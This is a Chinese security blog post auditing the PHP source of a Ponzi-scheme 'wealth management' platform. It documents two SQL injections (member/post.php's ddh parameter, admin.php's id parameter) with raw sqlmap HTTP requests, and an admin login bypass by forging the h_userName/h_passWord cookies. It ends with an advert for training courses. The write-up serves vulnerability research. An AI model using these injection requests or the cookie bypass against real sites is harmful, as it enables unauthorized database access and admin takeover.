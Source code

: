 #  代码审计某资金盘理财系统  
原创 moonsec  moonsec   2025-06-10 04:39  
  
```
免责声明：本公众号所提供的文字和信息仅供学习和研究使用，不得用于任何非法用途。
我们强烈谴责任何非法活动，并严格遵守法律法规。
读者应该自觉遵守法律法规，不得利用本公众号所提供的信息从事任何违法活动。
本公众号不对读者的任何违法行为承担任何责任。
```  
### 1.介绍  
  
这套系统属于资金盘，  
资金盘，顾名思义，是将不动的资金变为流动的资金，将个人手中闲散的资金利用起来，用于保值、增值。 但随着融资形式的发展，经过一部分人的加工和修饰，就异化为这样一种现象：它向社会不特定的对象吸收资金，根据行业内游戏规则，承诺高额返利。 表面看上去是资本运作，实质却是庞氏骗局。  
### 2.搭建  
  
环境 php5.6 mysql8 中间件 apache  
  
使用phpstudy搭建 创建网站后 使用navformysql将数据库mf.sql导入到指定的数据库   
  
修改  include/dbConfig.php  
  数据库信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcds2h7MEsLeRXXuFejqTYqG4ibjKPu4B2KgaC26dn80AUk2BYa5OeFfcg/640?wx_fmt=jpeg&from=appmsg "")  
  
直接访问即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdWQxEd06BD5s9SXbEiaDEdicsfMgGKzzkv0xcMjBNRmsofgUdPOKoVq5g/640?wx_fmt=jpeg&from=appmsg "")  
### 4.核心文件分析  
  
文件 include/conn.php  这个是网站的核心配置文件   
```
<?php# 文件名称:conn.php 2009-11-1 16:03:03# 网站相关的设置及配置信息header("Content-type: text/html;charset=utf-8");error_reporting(E_ERROR | E_PARSE);	//开发时注释掉，正式运营时，开启//@ini_set("display_errors", "Off");@set_time_limit(0);//版本相关设置，防不同版本而出错PHP_VERSION >= '5.1' && date_default_timezone_set('Asia/Shanghai');session_cache_limiter('private, must-revalidate'); @ini_set('session.auto_start',0); if(PHP_VERSION < '4.1.0') {	$_GET         = &$HTTP_GET_VARS;	$_POST        = &$HTTP_POST_VARS;	$_COOKIE      = &$HTTP_COOKIE_VARS;	$_SERVER      = &$HTTP_SERVER_VARS;	$_ENV         = &$HTTP_ENV_VARS;	$_FILES       = &$HTTP_POST_FILES;}//系统通用函数库 及 防注入等非法操作//MAGIC_QUOTES_GPC = off = 0，需要手工转义define('ROOTPATH', substr(dirname(__FILE__), 0, -7));define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());  //isset($_REQUEST['GLOBALS']) && exit('Access Error');require_once 'function.php';foreach(array('_COOKIE', '_POST', '_GET') as $_request) {	foreach($$_request as $_key => $_value) {		$_key{0} != '_' && $$_key = daddslashes($_value);	}}(!MAGIC_QUOTES_GPC) && $_FILES = daddslashes($_FILES);$REQUEST_URI  = $_SERVER['PHP_SELF'].'?'.$_SERVER['QUERY_STRING'];//页面压缩function_exists('ob_gzhandler') ? ob_start('ob_gzhandler') :ob_start();//用户IPif($_SERVER['HTTP_X_FORWARDED_FOR']){	$m_user_ip = $_SERVER['HTTP_X_FORWARDED_FOR'];} elseif($_SERVER['HTTP_CLIENT_IP']){	$m_user_ip = $_SERVER['HTTP_CLIENT_IP'];} else{	$m_user_ip = $_SERVER['REMOTE_ADDR'];}$m_user_ip  = preg_match('/^([0-9]{1,3}\.){3}[0-9]{1,3}$/',$m_user_ip) ? $m_user_ip : 'Unknown';//建立数据库连接$db_settings = parse_ini_file('dbConfig.php');@extract($db_settings);require_once 'mysql.php';$db = new dbmysql();$db->dbconn($con_db_host,$con_db_id,$con_db_pass,$con_db_name);$ckeditor_mc_id = '';$ckeditor_mc_val = '';$ckeditor_mc_lang = "zh-cn";$ckeditor_mc_toolbar = "Default";$ckeditor_mc_height = "400";//操作密码define('CC_ACT_PWD', '123asd..');
```  
  
这里的代码是重点  get_magic_quotes_gpc() 在php5.6 默认是0   
```
define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc()); //这个值是0 foreach(array('_COOKIE', '_POST', '_GET') as $_request) { //对传入的cookie、post 、get参数 存在特殊字符串进行过滤 例如' 变成'\	foreach($$_request as $_key => $_value) {		$_key{0} != '_' && $$_key = daddslashes($_value);	}}(!MAGIC_QUOTES_GPC) && $_FILES = daddslashes($_FILES); //文件上传 后缀名也会被过滤
```  
  
在登录的时候传入用户和密码  发现单引号被过滤  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdeqW5dsyMo2SdlpoVOuoEkOjjUqL0uNAXcVib5I31LlA5I0iaqNk7R7wg/640?wx_fmt=jpeg&from=appmsg "")  
### 5.前台SQL注入漏洞  
  
漏洞文件位置 /member/post.php  
$ddh参数使用$_GET获取 并不会被过滤。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdHyc4RjQHrq0icUSTwMvwh9nXPIc6Ykmwkt37VtuzAHuYNXianRsHBRoA/640?wx_fmt=jpeg&from=appmsg "")  
  
例子  
```
<?phpinclude 'include/conn.php';echo $username;echo "<hr>";echo $_GET['username'];
```  
  
如图  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcd5z7tDwBEbfagWkL5Mu9DJye9jJH9p7T3mkoPfMNPEUyq5awRej03Ow/640?wx_fmt=jpeg&from=appmsg "")  
  
使用sqlmap进行测试  
```
GET /member/post.php?ddh=1'&money=2&key=2052cd88bea3f9016a0057436dbbd750 HTTP/1.1Host: www.licai1.comAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://www.licai1.com/member/index.phpAccept-Encoding: gzip, deflateCookie: m_username=15888888888; m_password=e99a18c428cb38d5f260853678922e03; m_level=4; m_isPass=1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
注入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdia3q9QwwiawW9iaCeuPvBibnwqbycUawfk6DV7Og5dkZ9cGEWz4LuBoUug/640?wx_fmt=jpeg&from=appmsg "")  
### 6.后台SQL注入漏洞  
  
漏洞文件位置 D:\phpstudy_pro\WWW\www.licai1.com\admin\admin.php  
  
id并没有使用单引号 存在SQL注入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdntTJh1jtjBGzibBhwEvs4OAtUwYbDxT0OicLjgIBWP2WlkUjSSxBhciag/640?wx_fmt=jpeg&from=appmsg "")  
  
登录后台抓包 使用sqlmap.py -r sql4.txt 进行测试  
```
GET /admin/admin.php?clause=editinfo&id=5 HTTP/1.1Host: www.licai1.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9Cookie: PHPSESSID=964l42aof1mlb17jum3k2501m0; h_userName=admin; h_passWord=21232f297a57a5a743894a0e4a801fc3Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Encoding: gzip, deflate
```  
  
注入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdFcvDbgNvw2acRAhwOYBrfDaHUF4g2WUYAHqibgZuHqspDys6arrQIMg/640?wx_fmt=jpeg&from=appmsg "")  
### 7.后台验证绕过  
  
漏洞文件位置 admin/chkLogged.php  
  
从cookie获取账号和密码 判断 不为空之后 传入存在的账号进行查询。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdqV83U7jP5EteN90ZsDo37cmQEoWJRc32GUmHGGmonNaWmnOd5JWGicg/640?wx_fmt=jpeg&from=appmsg "")  
  
访问后台填写cookie即可绕过  
```
Cookie: h_userName=admin; h_passWord=1111
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdHOjuRneGXqCUo6RQia8YxVnL7RzzTBMxiaMiaYJZalVxX6Um0seILyd3A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
8.培训学习  
  
  
🚀 如果你想系统掌握网络安全实战技能，从入门到进阶完成一次能力跃迁，我们提供了高质量的培训课程，内容涵盖 Web 安全、内网渗透、红队对抗、代码审计等方向。  
  
📚 课程由实战经验丰富的讲师教学，适合零基础或有一定基础的学员。  
  
📩 有兴趣了解课程详情，扫一扫 添加月师傅微信  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ABAibBfLFiaWJj3GaxBQsRTcdfbicjic0toZ3E77AjB04TbQauCN7OnHwDAW44jPo17jcUIegZicYhqCXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
